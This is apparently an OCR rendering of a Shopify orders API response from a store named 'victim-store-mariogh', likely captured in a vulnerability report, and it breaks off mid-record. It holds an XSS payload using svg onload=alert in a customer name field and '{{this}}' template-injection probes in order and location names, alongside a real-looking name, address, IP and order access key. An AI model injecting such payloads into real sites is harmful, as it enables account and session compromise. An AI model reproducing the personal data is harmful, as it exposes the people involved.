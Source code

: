 ```
{"orders":[{"id":1296963305494,"email":"█████@gmail.com","closed_at":null,"created_at":"2019-09-18T23:00:59-04:00","updated_at":"2019-09-18T23:01:00-04:00","number":6,"note":null,"token":"418591279c9de03f61deecee1fc6515d","gateway":null,"test":false,"total_price":"0.00","subtotal_price":"0.00","total_weight":0,"total_tax":"0.00","taxes_included":false,"currency":"USD","financial_status":"paid","confirmed":true,"total_discounts":"0.00","total_line_items_price":"0.00","cart_token":"","buyer_accepts_marketing":false,"name":"#1006{{this}}","referring_site":"https:\/\/victim-store-mariogh.myshopify.com\/products\/a","landing_site":"\/wallets\/checkouts.json","cancelled_at":null,"cancel_reason":null,"total_price_usd":"0.00","checkout_token":"3cc31dee80e2723f1ccd2e74a8aceb15","reference":null,"user_id":null,"location_id":null,"source_identifier":null,"source_url":null,"processed_at":"2019-09-18T23:00:58-04:00","device_id":null,"phone":null,"customer_locale":"en","app_id":580111,"browser_ip":"181.197.87.44","landing_site_ref":null,"order_number":1006,"discount_applications":[],"discount_codes":[],"note_attributes":[],"payment_gateway_names":[],"processing_method":"free","checkout_id":8239220228118,"source_name":"web","fulfillment_status":null,"tax_lines":[],"tags":"","contact_email":"████████@gmail.com","order_status_url":"https:\/\/victim-store-mariogh.myshopify.com\/10361503766\/orders\/418591279c9de03f61deecee1fc6515d\/authenticate?key=9a757912c87e29b3615d7b34650ef937","presentment_currency":"USD","total_line_items_price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_discounts_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_shipping_price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"subtotal_price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_tax_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_tip_received":"0.0","admin_graphql_api_id":"gid:\/\/shopify\/Order\/1296963305494","line_items":[{"id":3241512992790,"variant_id":19560431026198,"title":"a","quantity":1,"sku":"a","variant_title":"","vendor":"Store Name","fulfillment_service":"manual","product_id":1992815050774,"requires_shipping":true,"taxable":true,"gift_card":false,"name":"a","variant_inventory_management":"shopify","properties":[],"product_exists":true,"fulfillable_quantity":1,"grams":0,"price":"0.00","total_discount":"0.00","fulfillment_status":null,"price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"total_discount_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"discount_allocations":[],"admin_graphql_api_id":"gid:\/\/shopify\/LineItem\/3241512992790","tax_lines":[],"origin_location":{"id":763511799830,"country_code":"PA","province_code":"PA-8","name":"{{this}}","address1":"8080","address2":"","city":"Paitilla","zip":"Panama"}}],"shipping_lines":[{"id":821852798998,"title":"Standard","price":"0.00","code":"Standard","source":"shopify","phone":null,"requested_fulfillment_service_id":null,"delivery_category":null,"carrier_identifier":null,"discounted_price":"0.00","price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"discounted_price_set":{"shop_money":{"amount":"0.00","currency_code":"USD"},"presentment_money":{"amount":"0.00","currency_code":"USD"}},"discount_allocations":[],"tax_lines":[]}],"billing_address":{"first_name":"Eric","address1":"1078 NE 34th St","phone":null,"city":"Oakland Park","zip":"33334","province":"Florida","country":"United States","last_name":"Mitchell","address2":"","company":null,"latitude":26.1693158,"longitude":-80.1329161,"name":"Eric Mitchell","country_code":"US","province_code":"FL"},"shipping_address":{"first_name":"Eric","address1":"1078 NE 34th St","phone":null,"city":"Oakland Park","zip":"33334","province":"Florida","country":"United States","last_name":"Mitchell","address2":"","company":null,"latitude":26.1693158,"longitude":-80.1329161,"name":"Eric Mitchell","country_code":"US","province_code":"FL"},"fulfillments":[],"client_details":{"browser_ip":"181.197.87.44","accept_language":"en-US,en;q=0.9","user_agent":"Mozilla\/5.0 (X11; Linux x86_64) AppleWebKit\/537.36 (KHTML, like Gecko) Ubuntu Chromium\/76.0.3809.100 Chrome\/76.0.3809.100 Safari\/537.36","session_hash":null,"browser_width":1427,"browser_height":708},"refunds":[],"customer":{"id":1375528943638,"email":"███████@gmail.com","accepts_marketing":false,"created_at":"2019-09-08T18:17:56-04:00","updated_at":"2019-09-18T23:00:59-04:00","first_name":"Ericxss\"\u003e\u003c!--\u003e\u003csvg\/onload=alert(document.domain)\u003e","last_name":"Mitchell","orders_count":2,"state":"disabled","total_spent":"0.00","last_order_id":1296963305494,"note":null,"verified_email":true,"multipass_identifier":null,"tax_exempt":false,"phone":null,"tags":"","last_order_name":"#1006{{this}}","currency":"USD","accepts_marketing_updated_at":"2019-09-08T22:08:53-04:00","marketing_opt_in_level":null,"admin_graphql_api_id":"gid:\/\/shopify\/Customer\/1375528943638","default_address":{"id":1430426419222,"customer_id":1375528943638,"first_name":"Eric","last_name":"Mitchell","company":null,"address1":"1078 NE 34th St","address2":"","city":"Oakland Park","province":"Florida","country":"United States","zip":"33334","phone":null,"name":"Eric Mitchell","province_code":"FL","count
```